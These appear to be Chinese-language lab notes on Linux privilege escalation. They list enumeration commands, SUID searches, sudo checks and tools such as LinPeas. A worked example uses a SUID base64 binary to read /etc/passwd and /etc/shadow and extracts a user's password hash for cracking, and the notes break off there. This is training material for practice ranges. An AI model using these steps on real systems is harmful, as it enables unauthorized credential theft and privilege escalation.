 
查找开发工具和支持的语言：
+ `find / -name perl*`
+ `find / -name python*`
- `find / -name gcc*`

查找特定文件权限：
+ `find / -perm -u=s -type f 2>/dev/null` ：查找带有SUID位的文件，它允许我们以比当前用户更高的权限级别运行该文件。


# 自动化枚举工具


+ [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
+ [LinEnum](https://github.com/rebootuser/LinEnum)
+ [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
+ [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
+ [Linux Priv Checker](https://github.com/linted/linuxprivchecker)




# sudo

任何用户都可以使用`sudo -l`命令检查其与 root 权限相关的当前情况。

[https://gtfobins.github.io/](https://gtfobins.github.io/)
是一个有价值的资源，它提供了有关如何使用您可能拥有 sudo 权限的任何程序的信息。



# SUID

```shell
find / -type f -perm -04000 -ls 2>/dev/null
```
将列出设置了 SUID 或 SGID 位的文件。

简单实例：
现在靶场的base64具有SUID位

```
LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```
由于没法直接获得root权限的shell，但是我们有读文件的权限
所以我们可以尝试破解密码

利用base将文件`etc/passwd`和`etc/shadow`文件下载到本地

由于我们想要破解`user2`的密码，所以我们将其内容单独保存到两个文件中
user2_pa.txt：
```txt
user2:x:1002:1002::/home/user2:/bin/sh
```

user2_sh.txt:
```txt
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```
